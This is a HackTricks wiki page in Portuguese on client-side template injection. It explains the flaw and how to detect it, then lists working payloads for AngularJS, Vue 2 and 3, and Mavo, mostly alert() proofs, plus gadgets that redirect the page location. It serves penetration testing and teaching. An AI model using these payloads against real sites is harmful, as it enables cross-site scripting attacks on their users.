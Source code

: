 # Client Side Template Injection (CSTI)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Resumo

É como uma [**Server Side Template Injection**](ssti-server-side-template-injection/) mas no **cliente**. A **SSTI** pode permitir que você **execute código** no servidor remoto, a **CSTI** pode permitir que você **execute código JavaScript arbitrário** no navegador da vítima.

**Testar** essa vulnerabilidade é muito **semelhante** ao caso de **SSTI**, o interpretador espera **um template** e o executará. Por exemplo, com um payload como `{{ 7-7 }}`, se o aplicativo for **vulnerável** você verá um `0`, e se não for, você verá o original: `{{ 7-7 }}`

## AngularJS

AngularJS é um framework JavaScript amplamente utilizado que interage com HTML através de atributos conhecidos como diretivas, uma notável sendo **`ng-app`**. Esta diretiva permite que o AngularJS processe o conteúdo HTML, possibilitando a execução de expressões JavaScript dentro de chaves duplas.

Em cenários onde a entrada do usuário é inserida dinamicamente no corpo HTML marcado com `ng-app`, é possível executar código JavaScript arbitrário. Isso pode ser alcançado aproveitando a sintaxe do AngularJS dentro da entrada. Abaixo estão exemplos demonstrando como o código JavaScript pode ser executado:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
Você pode encontrar um **exemplo online muito básico** da vulnerabilidade em **AngularJS** em [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) e em [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

{% hint style="danger" %}
[**Angular 1.6 remove o sandbox**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html) então a partir desta versão um payload como `{{constructor.constructor('alert(1)')()}}` ou `<input ng-focus=$event.view.alert('XSS')>` deve funcionar.
{% endhint %}

## VueJS

Você pode encontrar uma **implementação vulnerável do Vue** em [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh)\
Payload funcional: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

E o **código-fonte** do exemplo vulnerável aqui: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
Um post realmente bom sobre CSTI em VUE pode ser encontrado em [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
Crédito: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Crédito: [Mario Heiderich](https://twitter.com/cure53berlin)

**Verifique mais payloads VUE em** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

Payload:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**Mais payloads em** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **Lista de Detecção de Força Bruta**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}



{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
